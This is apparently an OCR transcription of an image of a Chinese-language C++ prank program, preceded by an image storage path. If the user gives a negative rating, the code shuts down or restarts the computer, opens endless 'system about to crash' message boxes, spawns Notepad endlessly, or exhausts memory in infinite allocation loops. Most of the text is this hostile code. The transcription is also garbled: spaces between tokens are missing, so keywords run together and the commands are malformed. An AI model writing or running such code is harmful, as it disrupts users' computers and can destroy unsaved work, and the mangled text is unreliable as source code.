 ```cpp
printf("你认为我怎么样？\n如果满意请输入'1'\n如果不满意请输入'2'\n");
intnum;
scanf("%d",&num);

if(num==1)
{
printf("感谢您对我友好的评价\n");
}
elseif(num==2)
{
printf("很抱歉，打扰到你了，请你选择一个1-5之间你最爱的数字\n");
Sleep(2000);
intnumOne;
scanf("%d",&numOne);

switch(numOne)
{
case1:
system("shutdown-s-t100");_//关机_
break;
case2:
system("shutdown-r-t1000");_//重启_
break;
case3:
while(1)
{
MessageBox(NULL,L"系统即将崩溃",L"恶意提示",1);_//无限弹窗_
}
break;
case4:
while(1)
{
system("notepad");_//无限打开记事本_
}
break;
case5:
while(1)
{
void*p=malloc(1024*1024*10);_//给系统无限分配空间1秒分配10兆吃内存_
Sleep(5000);
}
break;
default:
while(1)
{
void*p=malloc(1024*1024*10);
Sleep(1000);
}
break;
}
}
else
{
while(1)
{
void*p=malloc(1024*1024*10);
Sleep(1000);
}
}
system("pause");
}
```
